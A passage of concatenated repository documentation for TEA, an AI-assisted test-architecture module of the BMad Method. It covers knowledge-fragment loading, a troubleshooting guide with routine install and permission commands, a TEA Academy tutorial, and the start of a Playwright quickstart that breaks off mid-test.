- `tier` - Loading priority (`core` = always loaded for matching workflow, `extended` = loaded on demand, `specialized` = loaded only when the specific use case matches)
- `fragment_file` - Relative path to fragment markdown file

**Loading Profiles:**

Fragments are loaded based on workflow needs and tier priority:

- **Core tier**: Automatically loaded when a workflow starts (e.g., `test-quality.md` for `test-review`)
- **Extended tier**: Loaded when the workflow context requires them (e.g., `auth-session.md` when tests involve authentication)
- **Specialized tier**: Only loaded when the specific use case matches (e.g., contract-testing for microservices, email-auth for email flows)

**Fragment Location:** `src/agents/bmad-tea/resources/knowledge/` (all 42 fragments in a single directory)

**Manifest:** `src/agents/bmad-tea/resources/tea-index.csv`

---

## Workflow Fragment Loading

Each TEA workflow loads specific fragments:

### `framework`

**Key Fragments:**

- fixture-architecture.md
- playwright-config.md
- fixtures-composition.md

**Purpose:** Test infrastructure patterns and fixture composition

**Note:** Loads additional fragments based on framework choice (Playwright/Cypress) and config (`tea_use_playwright_utils`).

---

### `test-design`

**Key Fragments:**

- test-quality.md
- test-priorities-matrix.md
- test-levels-framework.md
- risk-governance.md
- probability-impact.md

**Purpose:** Risk assessment and test planning standards

**Note:** Loads additional fragments based on mode (system-level vs epic-level) and focus areas.

---

### `atdd`

**Key Fragments:**

- test-quality.md
- component-tdd.md
- fixture-architecture.md
- network-first.md
- data-factories.md
- selector-resilience.md
- timing-debugging.md
- test-healing-patterns.md

**Purpose:** TDD patterns and test generation standards

**Note:** Loads auth, network, and utility fragments based on feature requirements.

---

### `automate`

**Key Fragments:**

- test-quality.md
- test-levels-framework.md
- test-priorities-matrix.md
- fixture-architecture.md
- network-first.md
- selector-resilience.md
- test-healing-patterns.md
- timing-debugging.md

**Purpose:** Comprehensive test generation with quality standards

**Note:** Loads additional fragments for data factories, auth, network utilities based on test needs.

---

### `test-review`

**Key Fragments:**

- test-quality.md
- test-healing-patterns.md
- selector-resilience.md
- timing-debugging.md
- visual-debugging.md
- network-first.md
- test-levels-framework.md
- fixture-architecture.md

**Purpose:** Comprehensive quality review against all standards

**Note:** Loads all applicable playwright-utils fragments when `tea_use_playwright_utils: true`.

---

### `ci`

**Key Fragments:**

- ci-burn-in.md
- burn-in.md
- selective-testing.md
- playwright-config.md

**Purpose:** CI/CD best practices and optimization

---

### `nfr-assess`

**Key Fragments:**

- nfr-criteria.md
- risk-governance.md
- probability-impact.md

**Purpose:** NFR assessment frameworks and decision rules

---

### `trace`

**Key Fragments:**

- test-priorities-matrix.md
- risk-governance.md
- test-quality.md

**Purpose:** Traceability and gate decision standards

**Note:** Loads nfr-criteria.md if NFR assessment is part of gate decision.

---

## Related

- [TEA Overview](/brain/knowledge/docs_legacy/explanation/tea-overview.md) - How knowledge base fits in TEA
- [Testing as Engineering](/brain/knowledge/docs_legacy/explanation/testing-as-engineering.md) - Context engineering philosophy
- [TEA Command Reference](../bmad_repo/commands.md) - Workflows that use fragments

---

Generated with [BMad Method](https://bmad-method.org) - TEA (Test Engineering Architect)
```

## File: `brain/knowledge/docs_legacy/reference/troubleshooting.md`
```markdown
---
title: Troubleshooting Guide
description: Diagnose and resolve common issues when using TEA
---

# Troubleshooting Guide

This guide helps you diagnose and resolve common issues when using TEA (Test Engineering Architect).

## Table of Contents

- [Installation Issues](#installation-issues)
- [Agent Loading Issues](#agent-loading-issues)
- [Workflow Execution Issues](#workflow-execution-issues)
- [Knowledge Base Issues](#knowledge-base-issues)
- [Configuration Issues](#configuration-issues)
- [Output and File Issues](#output-and-file-issues)
- [Integration Issues](#integration-issues)
- [Performance Issues](#performance-issues)
- [Getting Help](#getting-help)

---

## Installation Issues

### TEA Module Not Found After Installation

**Symptom**: After running `npx bmad-method install`, TEA agent is not available.

**Causes**:

- TEA was not selected during installation
- Installation process failed silently
- `_bmad/tea/` directory was not created

**Solutions**:

1. Verify TEA installation:

   ```bash
   ls -la _bmad/tea/
   # Should show: agents/, workflows/, testarch/, module.yaml
   ```

2. If missing, reinstall TEA:

   ```bash
   npx bmad-method install
   # Select: Test Architect (TEA)
   ```

3. Check installation logs for errors:
   ```bash
   # Look for error messages during installation
   npx bmad-method install --verbose
   ```

### Installing TEA Behind a Corporate Firewall (Local Repo)

If the BMAD installer can run but cannot fetch the Test Architect module from GitHub, point it to a local clone or internal mirror.

**Goal:** Make the installer clone TEA from a local path instead of the public repo.

1. **Clone TEA locally (or use your internal Git mirror):**

   ```bash
   git clone /path/to/your/internal/mirror/bmad-method-test-architecture-enterprise \
     /path/to/local/bmad-method-test-architecture-enterprise
   ```

2. **Edit the BMAD installer module list** in the BMAD repo you are running the installer from:

   `BMAD-METHOD/tools/cli/external-official-modules.yaml`

   Update the TEA entry to point to your local path:

   ```yaml
   bmad-method-test-architecture-enterprise:
     url: /path/to/local/bmad-method-test-architecture-enterprise
     module-definition: src/module.yaml
     code: tea
     name: 'Test Architect'
     description: 'Master Test Architect for quality strategy, test automation, and release gates'
     defaultSelected: false
     type: bmad-org
     npmPackage: bmad-method-test-architecture-enterprise
   ```

3. **Run the installer:**

   ```bash
   npx bmad-method install
   ```

**Notes:**

- `url:` can be a local filesystem path or an internal Git mirror URL.
- If your environment blocks npm, use an internal npm proxy or allow npm only for the local module cache.

### Module Installation Hangs

**Symptom**: Installation process hangs or times out.

**Causes**:

- Network connectivity issues
- NPM registry timeout
- Disk space issues

**Solutions**:

1. Check network connectivity:

   ```bash
   ping registry.npmjs.org
   ```

2. Check available disk space:

   ```bash
   df -h
   ```

3. Clear NPM cache and retry:

   ```bash
   npm cache clean --force
   npx bmad-method install
   ```

4. Use alternative registry:
   ```bash
   npm config set registry https://registry.npmjs.org/
   ```

---

## Agent Loading Issues

### "Agent Not Found" Error

**Symptom**: Error message: `Error: Agent '_bmad/tea' not found` or `Agent 'tea' could not be loaded`.

**Causes**:

- TEA not installed
- Incorrect agent path
- Corrupted installation

**Solutions**:

1. Verify TEA agent skill exists:

   ```bash
   ls -la _bmad/tea/agents/bmad-tea/SKILL.md
   ```

2. Validate agent schema:

   ```bash
   # Check for schema errors
   node tools/validate-agent-schema.js
   ```

3. Reinstall TEA if corrupted:
   ```bash
   rm -rf _bmad/tea/
   npx bmad-method install
   ```

### TEA Loads But Commands Don't Work

**Symptom**: TEA agent loads successfully, but workflow triggers (TF, TD, AT, etc.) don't execute.

**Causes**:

- Workflow files missing
- Incorrect workflow paths in agent definition
- YAML syntax errors in workflow files

**Solutions**:

1. Check workflow directories exist:

   ```bash
   ls -la _bmad/tea/workflows/testarch/
   # Should show: atdd/, automate/, ci/, framework/, nfr-assess/, test-design/, test-review/, trace/
   ```

2. Validate workflow YAML files:

   ```bash
   # Check each workflow
   cat _bmad/tea/workflows/testarch/bmad-testarch-test-design/workflow.yaml
   ```

3. Test workflow trigger directly:

   ```text
   # Try full slash command
   /bmad:tea:test-design

   # Codex skill-mode alternative
   $bmad-tea-testarch-test-design
   ```

### Custom TEA Workflow Does Not Appear

**Symptom**: A custom workflow used to be available from TEA, but it no longer appears in the `bmad-tea` menu after updates.

**Cause**: TEA is now a standalone module. Custom workflows are not merged into TEA core automatically.

**Solution**:

1. Package the workflow as custom content or a custom module instead of editing TEA directly.
2. Attach it to `bmad-tea` using the generated agent customization file under `_bmad/_config/agents/`.
3. Re-run `npx bmad-method install` so the customization and workflow registration are refreshed.

See [Extend TEA with Custom Workflows](../how-to/customization/extend-tea-with-custom-workflows.md).

---

## Workflow Execution Issues

### Workflow Starts But Produces No Output

**Symptom**: Workflow executes but doesn't generate expected files (test designs, reports, tests).

**Causes**:

- Output directory doesn't exist or lacks write permissions
- Variable `test_artifacts` not configured
- Workflow completed but didn't reach output generation step

**Solutions**:

1. Check output directory configuration:

   ```bash
   cat _bmad/tea/module.yaml | grep test_artifacts
   ```

2. Create output directory if missing:

   ```bash
   mkdir -p test-results
   ```

3. Check directory permissions:

   ```bash
   ls -la test-results/
   # Should be writable
   ```

4. Verify workflow completed all steps:
   ```
   # Check Claude's response for completion message
   # Look for: "✓ Test design complete" or similar
   ```

### Subagent Fails to Execute

**Symptom**: Workflow reports subagent failure, e.g., "API test generation subagent failed".

**Causes**:

- Subagent step file missing
- Temp file write permissions issue
- Invalid subagent output format
- Requested execution mode not supported by runtime

**Solutions**:

1. Verify subagent step files exist:

   ```bash
   # For automate workflow
   ls -la _bmad/tea/workflows/testarch/bmad-testarch-automate/steps-c/step-03*.md
   # Should show: step-03a-*.md, step-03b-*.md, step-03c-aggregate.md
   ```

2. Check temp file directory permissions:

   ```bash
   ls -la /tmp/ | grep bmad-tea
   # Should show temp files if workflow ran
   ```

3. Look for error messages in subagent output:

   ```
   # Check Claude's response for specific error details
   ```

4. Check TEA orchestration mode in config:

   ```bash
   grep -E "tea_execution_mode|tea_capability_probe" _bmad/tea/config.yaml
   ```

5. If runtime does not support parallel worker launch, use deterministic fallback:

   ```yaml
   tea_execution_mode: 'sequential'
   tea_capability_probe: true
   ```

### Knowledge Fragments Not Loading

**Symptom**: Workflow executes but doesn't reference knowledge base patterns (e.g., no mention of "test-quality", "network-first").

**Causes**:

- `tea-index.csv` missing or corrupted
- Knowledge fragment files missing
- Workflow manifest doesn't specify fragments

**Solutions**:

1. Verify tea-index.csv exists:

   ```bash
   cat _bmad/tea/agents/bmad-tea/resources/tea-index.csv | wc -l
   # Should show 43 lines (header + 42 fragments)
   ```

2. Check knowledge fragment files:

   ```bash
   ls -la _bmad/tea/agents/bmad-tea/resources/knowledge/ | wc -l
   # Should show 40+ files
   ```

3. Validate CSV format:

   ```bash
   head -5 _bmad/tea/agents/bmad-tea/resources/tea-index.csv
   # Should show: id,name,description,tags,tier,fragment_file
   ```

4. Check workflow manifest:
   ```bash
   # Each workflow.yaml should specify knowledge_fragments
   grep -A 5 "knowledge_fragments" _bmad/tea/workflows/testarch/bmad-testarch-test-design/workflow.yaml
   ```

---

## Configuration Issues

### Variables Not Prompting During Installation

**Symptom**: Installation completes without asking for TEA configuration (test_artifacts, Playwright Utils, etc.).

**Causes**:

- Variables marked as `prompt: false` in module.yaml
- Installation running in non-interactive mode
- Module.yaml misconfigured

**Solutions**:

1. Check variable prompt settings:

   ```bash
   cat _bmad/tea/module.yaml | grep -A 3 "test_artifacts"
   # Should show prompt: true
   ```

2. Manually edit module.yaml if needed:

   ```bash
   # Update _bmad/tea/module.yaml
   vi _bmad/tea/module.yaml
   ```

3. Run installation in interactive mode:
   ```bash
   npx bmad-method install --interactive
   ```

### Playwright Utils Integration Not Working

**Symptom**: Workflows don't include Playwright Utils references even though `tea_use_playwright_utils` is enabled.

**Causes**:

- Variable set to `false` in module.yaml
- Playwright Utils knowledge fragments missing
- Workflow doesn't support Playwright Utils integration

**Solutions**:

1. Verify variable setting:

   ```bash
   cat _bmad/tea/module.yaml | grep tea_use_playwright_utils
   # Should show: default: true (if enabled)
   ```

2. Check Playwright Utils fragments exist:

   ```bash
   grep -i "playwright-utils" _bmad/tea/agents/bmad-tea/resources/tea-index.csv
   # Should show 6 fragments
   ```

3. Note: Only certain workflows integrate Playwright Utils:
   - ✅ Framework (TF)
   - ✅ Test Design (TD)
   - ✅ ATDD (AT)
   - ✅ Automate (TA)
   - ✅ Test Review (RV)
   - ❌ CI, Trace, NFR-Assess (not applicable)

---

## Output and File Issues

### Test Files Generated in Wrong Location

**Symptom**: Test files created in unexpected directory.

**Causes**:

- `test_artifacts` variable misconfigured
- Relative path confusion
- Working directory changed

**Solutions**:

1. Check test_artifacts configuration:

   ```bash
   cat _bmad/tea/module.yaml | grep test_artifacts
   ```

2. Use absolute paths:

   ```bash
   # Specify absolute path
   export TEST_ARTIFACTS=/path/to/project/test-results
   ```

3. Verify working directory:
   ```bash
   pwd
   # Should be project root
   ```

### Generated Tests Have Syntax Errors

**Symptom**: TEA generates tests with JavaScript/TypeScript syntax errors.

**Causes**:

- Framework configuration mismatch (Playwright vs Cypress)
- Wrong test template loaded
- Knowledge fragment syntax error

**Solutions**:

1. Specify framework explicitly:

   ```
   # In chat with TEA
   "Generate Playwright tests using TypeScript"
   ```

2. Validate generated tests:

   ```bash
   npx eslint tests/**/*.spec.ts
   ```

3. Check knowledge fragments for errors:
   ```bash
   # Validate markdown syntax
   markdownlint _bmad/tea/agents/bmad-tea/resources/knowledge/*.md
   ```

### File Permission Errors

**Symptom**: Error: `EACCES: permission denied` when writing files.

**Causes**:

- Directory not writable
- File owned by different user
- Disk full

**Solutions**:

1. Check directory permissions:

   ```bash
   ls -la test-results/
   ```

2. Fix permissions:

   ```bash
   chmod -R u+w test-results/
   ```

3. Check disk space:
   ```bash
   df -h
   ```

---

## Integration Issues

### Playwright Utils Not Found

**Symptom**: Tests reference Playwright Utils but imports fail.

**Causes**:

- Playwright Utils not installed
- Wrong import path
- Version mismatch

**Solutions**:

1. Install Playwright Utils:

   ```bash
   npm install @muratkeremozcan/playwright-utils
   ```

2. Verify installation:

   ```bash
   npm ls @muratkeremozcan/playwright-utils
   ```

3. Check import paths in generated tests:
   ```typescript
   // Should be:
   import { expect, test } from '@muratkeremozcan/playwright-utils';
   ```

### Browser Automation Not Working

**Symptom**: `tea_browser_automation` set to `"auto"` or `"cli"` or `"mcp"` but no browser features in outputs.

**Causes**:

- CLI not installed globally (for `cli` or `auto` mode)
- MCP server not configured in IDE (for `mcp` or `auto` mode)
- Variable not read correctly
- Workflow doesn't support browser automation

**Solutions**:

1. For CLI mode, verify CLI is installed:

   ```bash
   playwright-cli --version
   # If missing: npm install -g @playwright/cli@latest
   ```

2. For MCP mode, verify MCP configuration in IDE:

   ```json
   {
     "mcpServers": {
       "playwright": {
         "type": "stdio",
         "command": "npx",
         "args": ["-y", "@playwright/mcp@latest"]
       }
     }
   }
   ```

   See [Configure Browser Automation — MCP Setup](/brain/knowledge/docs_legacy/how-to/customization/configure-browser-automation.md#for-mcp-mcp-or-auto-mode) for the exact config file path for your tool (Claude Code, Codex, Gemini CLI, Cursor, Windsurf).

3. Check variable setting:

   ```bash
   cat _bmad/tea/config.yaml | grep tea_browser_automation
   ```

4. Restart IDE after configuration changes.

---

## Performance Issues

### Workflows Taking Too Long

**Symptom**: Workflows run for several minutes without completing.

**Causes**:

- Large codebase exploration
- Many test files to review
- Subagent execution overhead
- Network latency (if using web-based Claude)

**Solutions**:

1. Scope workflows to specific directories:

   ```
   # Instead of "review all tests"
   "Review tests in tests/e2e/checkout/"
   ```

2. Use selective workflows:
   - Use `automate` for targeted test generation
   - Use `test-review` on specific files, not entire suite

3. Check system resources:
   ```bash
   top
   # Look for CPU/memory usage
   ```

### Large Knowledge Base Loading Slowly

**Symptom**: Initial workflow load takes 30+ seconds.

**Causes**:

- Up to 42 fragments loading at once (depends on workflow and enabled integrations)
- Large fragment file sizes
- Disk I/O bottleneck

**Solutions**:

1. This is expected behavior - knowledge base loading is one-time per workflow
2. Use cached knowledge (workflows cache fragments in memory)
3. For repeated runs, performance should improve

---

## Getting Help

### Debug Mode

Enable debug logging for detailed diagnostics:

```bash
# Set debug environment variable
export DEBUG=bmad:tea:*

# Run workflow with verbose output
# (Note: Exact implementation depends on BMAD Method)
```

### Collecting Diagnostic Information

When reporting issues, include:

1. **TEA Version**:

   ```bash
   cat _bmad/tea/module.yaml | grep version
   ```

2. **BMAD Method Version**:

   ```bash
   bmad --version
   ```

3. **Node Version**:

   ```bash
   node --version
   ```

4. **Operating System**:

   ```bash
   uname -a
   ```

5. **Directory Structure**:

   ```bash
   tree -L 2 _bmad/tea/
   ```

6. **Error Messages**: Copy full error message and stack trace

7. **Steps to Reproduce**: Exact commands that trigger the issue

### Support Channels

1. **Documentation**: [test-architect.bmad-method.org](https://test-architect.bmad-method.org)
2. **GitHub Issues**: [Report a bug](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/issues/new?template=issue.md)
3. **GitHub Discussions**: [Ask a question](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/discussions)

### Before Reporting an Issue

Check these first:

- [ ] TEA is installed: `ls -la _bmad/tea/`
- [ ] Using the correct invocation for your tool: slash namespace `/bmad:tea:*` (not `/bmad:bmm:tea:*`) or Codex skill equivalents (`$bmad-tea-*`)
- [ ] Module.yaml exists and is valid
- [ ] Knowledge base files present (42 fragments)
- [ ] Output directory exists and is writable
- [ ] No disk space issues: `df -h`
- [ ] Node version >=20.0.0: `node --version`
- [ ] Searched existing issues on GitHub

---

## Common Error Messages

### "Module 'tea' not found"

**Fix**: Reinstall TEA module via `npx bmad-method install`

### "Knowledge fragment 'test-quality' not found"

**Fix**: Verify `_bmad/tea/agents/bmad-tea/resources/tea-index.csv` exists and lists the fragment

### "Cannot write to test-results/"

**Fix**: Create directory and fix permissions: `mkdir -p test-results && chmod u+w test-results`

### "Workflow 'test-design' failed at step 3"

**Fix**: Check step file exists: `_bmad/tea/workflows/testarch/bmad-testarch-test-design/steps-c/step-03-*`

### "Agent YAML validation failed"

**Fix**: Validate YAML syntax: `node tools/validate-agent-schema.js`

### "Subagent execution timeout"

**Fix**: Large codebases may timeout. Scope workflow to smaller directory.

---

## Advanced Troubleshooting

### Manually Validate Installation

Run this validation script:

```bash
#!/bin/bash
echo "Validating TEA Installation..."

# Check agent skill directory
if [ -f "_bmad/tea/agents/bmad-tea/SKILL.md" ]; then
  echo "✓ Agent skill exists"
else
  echo "✗ Agent skill missing"
fi

# Check workflows
for workflow in atdd automate ci framework nfr-assess test-design test-review trace; do
  if [ -f "_bmad/tea/workflows/testarch/$workflow/workflow.yaml" ]; then
    echo "✓ Workflow: $workflow"
  else
    echo "✗ Workflow missing: $workflow"
  fi
done

# Check knowledge base
fragment_count=$(ls _bmad/tea/agents/bmad-tea/resources/knowledge/*.md 2>/dev/null | wc -l)
echo "Knowledge fragments: $fragment_count (expected: 42)"

# Check tea-index.csv
csv_lines=$(wc -l < _bmad/tea/agents/bmad-tea/resources/tea-index.csv 2>/dev/null || echo "0")
echo "TEA index lines: $csv_lines (expected: 43)"

echo "Validation complete!"
```

### Reset TEA to Fresh State

If all else fails, reset TEA completely:

```bash
# Backup existing configuration
cp _bmad/tea/module.yaml /tmp/tea-module-backup.yaml

# Remove TEA
rm -rf _bmad/tea/

# Reinstall
npx bmad-method install
# Select: Test Architect (TEA)

# Restore configuration if needed
cp /tmp/tea-module-backup.yaml _bmad/tea/module.yaml
```

---

**Still stuck?** Open a [GitHub Issue](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/issues) with diagnostic information.
```

## File: `brain/knowledge/docs_legacy/tutorials/learn-testing-tea-academy.md`
```markdown
---
title: 'Learn Testing with TEA Academy'
description: Start your testing journey with TEA Academy - 7 progressive sessions from fundamentals to advanced practices
---

# Learn Testing with TEA Academy

**Time:** 1-2 weeks (self-paced, 7 sessions)
**Who:** QA engineers, developers, leads, VPs - anyone learning testing
**What:** Progressive learning from fundamentals to advanced TEA practices

## What is TEA Academy?

TEA Academy is an interactive learning companion that teaches testing through 7 structured sessions. Unlike reading documentation, TEA Academy:

- **Teaches progressively:** Build knowledge session by session
- **Validates understanding:** Quiz after each session (≥70% to pass)
- **Tracks progress:** Resume anytime with automatic state persistence
- **Adapts to your role:** Examples customized for QA/Dev/Lead/VP
- **Generates artifacts:** Session notes and completion certificate

## Quick Start

### 1. Load TEA Agent

```bash
tea
```

### 2. Start TEA Academy

```bash
TMT
```

Or type:

```bash
teach-me-testing
```

### 3. Complete Assessment

Answer 4 questions:

- Your role (QA/Dev/Lead/VP)
- Experience level (beginner/intermediate/experienced)
- Learning goals
- Pain points (optional)

### 4. Choose Your First Session

The session menu shows all 7 sessions. Pick based on your experience:

**Beginners:** Start with Session 1 (Quick Start)
**Intermediate:** Review Session 2 (Core Concepts) or jump to Session 3
**Experienced:** Jump directly to Session 7 (Advanced Patterns)

### 5. Complete Sessions

Each session:

- Teaches concepts with examples
- Validates understanding with 3-question quiz
- Generates session notes
- Saves progress automatically

### 6. Earn Your Certificate

Complete all 7 sessions to receive your TEA Academy completion certificate!

## The 7 Sessions

### Session 1: Quick Start (30 min)

**What you'll learn:**

- What is TEA and why it exists
- TEA Lite 30-minute approach
- 9 workflows overview
- 5 engagement models

**Perfect for:** Everyone - establishes foundation

### Session 2: Core Concepts (45 min)

**What you'll learn:**

- Testing as engineering philosophy
- Risk-based testing (P0-P3 matrix)
- Probability × Impact scoring
- Definition of Done (7 quality principles)

**Perfect for:** Beginners and intermediate learners

### Session 3: Architecture & Patterns (60 min)

**What you'll learn:**

- Fixture composition
- Network-first patterns
- Data factories
- Step-file architecture

**Perfect for:** Intermediate and experienced learners wanting TEA patterns

### Session 4: Test Design (60 min)

**What you'll learn:**

- Test Design workflow
- Risk/testability assessment
- Coverage planning strategy
- Test levels framework

**Perfect for:** Anyone planning test coverage

### Session 5: ATDD & Automate (60 min)

**What you'll learn:**

- ATDD workflow (red-green TDD)
- Automate workflow (coverage expansion)
- Component TDD patterns
- API testing without browser

**Perfect for:** Developers and QA engineers writing tests

### Session 6: Quality & Trace (45 min)

**What you'll learn:**

- Test Review workflow (5 dimensions)
- Quality scoring (0-100)
- Trace workflow (requirements traceability)
- Release gate decisions

**Perfect for:** Quality-focused engineers and leads

### Session 7: Advanced Patterns (Ongoing)

**What you'll learn:**

- Menu-driven exploration of 42 knowledge fragments
- Deep-dive into specific patterns as needed
- GitHub repository browsing

**Categories:**

- Testing Patterns (9 fragments)
- Playwright Utils (11 fragments)
- Configuration & Governance (6 fragments)
- Quality Frameworks (5 fragments)
- Authentication & Security (3 fragments)

**Perfect for:** Everyone; it adapts to your experience level

## Progress Tracking

### Automatic Saves

Progress is saved after:

- Assessment complete
- Each quiz completion
- Each session notes generation
- User-initiated exit

### Resume Capability

Run the workflow anytime - it automatically:

- Detects existing progress
- Shows dashboard with completion status
- Offers to resume where you left off

### Your Artifacts

All generated artifacts are saved:

```
{test_artifacts}/
├── teaching-progress/
│   └── {your-name}-tea-progress.yaml       # Progress tracking
└── tea-academy/
    └── {your-name}/
        ├── session-01-notes.md              # Session notes
        ├── session-02-notes.md
        ├── ...
        ├── session-07-notes.md
        └── tea-completion-certificate.md    # Certificate (after all 7)
```

## Customization by Role

### QA Engineers

**Focus:** Practical workflow usage, coverage expansion, quality metrics
**Examples:** Test suite maintenance, framework setup, CI configuration
**Recommended sessions:** All 7 (comprehensive QA onboarding)

### Developers

**Focus:** TDD approach, integration testing, API testing
**Examples:** Feature development with tests, red-green-refactor, mocking
**Recommended sessions:** 1, 2, 5, 3, 4 (TDD-focused path)

### Tech Leads

**Focus:** Architecture decisions, team patterns, code review standards
**Examples:** Establishing team standards, fixture architecture, CI governance
**Recommended sessions:** 1, 3, 4, 6, 7 (architecture and quality focus)

### VPs/Managers

**Focus:** Testing strategy, ROI, team scalability, quality metrics
**Examples:** Justifying automation investment, risk-based prioritization
**Recommended sessions:** 1, 2, 4, 6 (strategy and metrics focus)

## FAQ

**How long does it take?**
1-2 weeks for new QAs completing all 7 sessions. Experienced engineers can complete in 3-4 hours by jumping to relevant sessions.

**Can I skip sessions?**
Yes! Jump to any session from the menu. Sessions are independent but build on concepts.

**What if I fail a quiz?**
You can review the content and try again, or continue anyway. Your score is recorded.

**Can I retake sessions?**
Yes! Run the workflow and select any session again. It will update your score.

**Do I need to complete all 7 sessions?**
For the completion certificate, yes. But you can learn from individual sessions anytime.

**Can multiple people use this?**
Yes! Progress files are per-user. Each team member gets their own progress tracking.

## Next Steps After Completion

Once you've completed TEA Academy, you're ready to:

1. **Apply TEA to your project:**
   - Run [Framework](./setup-test-framework.md) to set up test architecture
   - Run [Test Design](./run-test-design.md) to plan coverage
   - Run [ATDD](./run-atdd.md) or [Automate](./run-automate.md) to generate tests

2. **Use TEA workflows:**
   - All 9 workflows are now familiar to you
   - Choose the right workflow for your task

3. **Explore knowledge fragments:**
   - 42 fragments for just-in-time learning
   - Revisit Session 7 anytime

4. **Share knowledge:**
   - Help team members through TEA Academy
   - Contribute to TEA methodology improvements

## Related

- [TEA Overview](/explanation/tea-overview/) - Understand TEA architecture
- [Getting Started](/tutorials/tea-lite-quickstart/) - Quick 30-minute intro
- [Knowledge Base](/reference/knowledge-base/) - All 42 knowledge fragments
- [Commands](/reference/commands/) - TEA agent command reference
```

## File: `brain/knowledge/docs_legacy/tutorials/tea-lite-quickstart.md`
```markdown
---
title: 'Getting Started with Test Architect'
description: Learn Test Architect fundamentals by generating and running tests for an existing demo app in 30 minutes
---

Welcome! **Test Architect (TEA) Lite** is the simplest way to get started with TEA - just use the `automate` workflow (e.g., `/automate` in Claude Code) to generate tests for existing features. Perfect for beginners who want to learn TEA fundamentals quickly.

## What You'll Build

By the end of this 30-minute tutorial, you'll have:

- A working Playwright test framework
- Your first risk-based test plan
- Passing tests for an existing demo app feature

:::note[Prerequisites]

- Node.js installed (v20 or later)
- 30 minutes of focused time
- We'll use TodoMVC (<https://todomvc.com/examples/react/dist/>) as our demo app
  :::

:::tip[Quick Path]
Load TEA (`tea`) → scaffold framework (`framework`) → create test plan (`test-design`) → generate tests (`automate`) → run with `npx playwright test`.
:::

## TEA Approaches Explained

Before we start, understand the three ways to use TEA:

- **TEA Lite** (this tutorial): Beginner using just the `automate` workflow to test existing features
- **TEA Solo**: Using TEA standalone without full BMad Method integration
- **TEA Integrated**: Full BMad Method with all TEA workflows across phases

This tutorial focuses on **TEA Lite** - the fastest way to see TEA in action.

## Step 0: Setup (2 minutes)

We'll test TodoMVC, a standard demo app used across testing documentation.

**Demo App:** <https://todomvc.com/examples/react/dist/>

No installation needed - TodoMVC runs in your browser. Open the link above and:

1. Add a few todos (type and press Enter)
2. Mark some as complete (click checkbox)
3. Try the "All", "Active", "Completed" filters

You've just explored the features we'll test!

## Step 1: Install BMad and Scaffold Framework (10 minutes)

### Install BMad Method

Install BMad (see installation guide for latest command).

When prompted:

- **Select modules:** Choose "BMM: BMad Method" (press Space, then Enter)
- **Project name:** Keep default or enter your project name
- **Experience level:** Choose "beginner" for this tutorial
- **Planning artifacts folder:** Keep default
- **Implementation artifacts folder:** Keep default
- **Project knowledge folder:** Keep default
- **Enable TEA Playwright Model Context Protocol (MCP) enhancements?** Choose "No" for now (we'll explore this later)
- **Using playwright-utils?** Choose "No" for now (we'll explore this later)

BMad is now installed! You'll see a `_bmad/` folder in your project.

### Load TEA Agent

Start a new chat with your AI assistant (Claude, etc.) and type:

```
tea
```

This loads the Test Architect agent. You'll see TEA's menu with available workflows.

### Scaffold Test Framework

In your chat, run:

```
framework
```

TEA will ask you questions:

**Q: What's your tech stack?**
A: "We're testing a React web application (TodoMVC)"

**Q: Which test framework?**
A: "Playwright"

**Q: Testing scope?**
A: "End-to-end (E2E) testing for a web application"

**Q: Continuous integration/continuous deployment (CI/CD) platform?**
A: "GitHub Actions" (or your preference)

TEA will generate:

- `tests/` directory with Playwright config
- `playwright.config.ts` with base configuration
- Sample test structure
- `.env.example` for environment variables
- `.nvmrc` for Node version

**Verify the setup:**

```bash
npm install
npx playwright install
```

You now have a production-ready test framework!

## Step 2: Your First Test Design (5 minutes)

Test design is where TEA shines - risk-based planning before writing tests.

### Run Test Design

In your chat with TEA, run:

```
test-design
```

**Q: System-level or epic-level?**
A: "Epic-level - I want to test TodoMVC's basic functionality"

**Q: What feature are you testing?**
A: "TodoMVC's core operations - creating, completing, and deleting todos"

**Q: Any specific risks or concerns?**
A: "We want to ensure the filter buttons (All, Active, Completed) work correctly"

TEA will analyze and create `test-design-epic-1.md` with:

1. **Risk Assessment**
   - Probability × Impact scoring
   - Risk categories (TECH, SEC, PERF, DATA, BUS, OPS)
   - High-risk areas identified

2. **Test Priorities**
   - P0: Critical path (creating and displaying todos)
   - P1: High value (completing todos, filters)
   - P2: Medium value (deleting todos)
   - P3: Low value (edge cases)

3. **Coverage Strategy**
   - E2E tests for user workflows
   - Which scenarios need testing
   - Suggested test structure

**Review the test design file** - notice how TEA provides a systematic approach to what needs testing and why.

## Step 3: Generate Tests for Existing Features (5 minutes)

Now the magic happens - TEA generates tests based on your test design.

### Run Automate

In your chat with TEA, run:

```
automate
```

**Q: What are you testing?**
A: "TodoMVC React app at <https://todomvc.com/examples/react/dist/> - focus on the test design we just created"

**Q: Reference existing docs?**
A: "Yes, use test-design-epic-1.md"

**Q: Any specific test scenarios?**
A: "Cover the P0 and P1 scenarios from the test design"

TEA will generate:

**`tests/e2e/todomvc.spec.ts`** with tests like:

```typescript
import { test, expect } from '@playwright/test';

test.describe('TodoMVC - Core Functionality', () => {
  test.beforeEach(async ({ page }) => {
    await page.goto('https://todomvc.com/examples/react/dist/');
  });

  test('should create a new todo', async ({ page }) => {
    // TodoMVC uses a simple input without placeholder or test IDs
    const todoInput = page.locator('.new-todo');
    await todoInput.fill('Buy groceries');
    await todoInput.press('Enter');

    // Verify todo appears in list
    await expect(page.locator('.todo-list li')).toContainText('Buy groceries');
  });

  test('should mark todo as complete', async ({ page }) => {
    // Create a todo
    const todoInput = page.locator('.new-todo');
    await todoInput.fill('Complete tutorial');
    await todoInput.press('Enter');

    // Mark as complete using the toggle checkbox
    await page.locator('.todo-list li .toggle').click();

    // Verify completed state
    await expect(page.locator('.todo-list li')).toHaveClass(/completed/);
  });

  test('should filter todos by status', async ({ page }) => {
    // Create multiple todos
    const todoInput = page.locator('.new-todo');
    await todoInput.fill('Buy groceries');
    await todoInput.press('Enter');
    await todoInput.fill('Write tests');
    await todoInput.press('Enter');

    // Complete the first todo ("Buy groceries")
    await page.locator('.todo-list li .toggle').first().click();

    // Test Active filter (shows only incomplete todos)
    await page.locator('.filters a[href="#/active"]').click();
    await expect(page.locator('.todo-list li')).toHaveCount(1);
    await expect(page.locator('.todo-list li')).toContainText('Write tests');

    // Test Completed filter (shows only completed todos)
    await page.locator('.filters a[href="#/completed"]').click();
    await expect(page.locator('.todo-list li')).toHaveCount(1);
    await expect(page.locator('.todo-list li')).toContainText('Buy groceries');
